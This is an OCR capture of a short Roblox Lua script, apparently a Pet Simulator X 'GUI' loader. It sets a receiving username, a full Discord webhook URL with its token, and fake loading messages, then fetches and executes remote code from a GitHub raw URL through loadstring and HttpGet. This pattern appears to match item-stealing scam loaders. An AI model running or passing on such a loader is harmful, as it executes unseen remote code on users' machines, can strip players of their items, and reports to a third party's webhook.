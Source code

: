 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1084533100714934304/1SW0Nh6dR5LRbphWwSaKR2PUBoKKgXwb09DCPRYW4LCNliOX6TFycOTW6xmeEZ9YFe_P"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Script PROSTI TEBYA SCAMHULI"

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
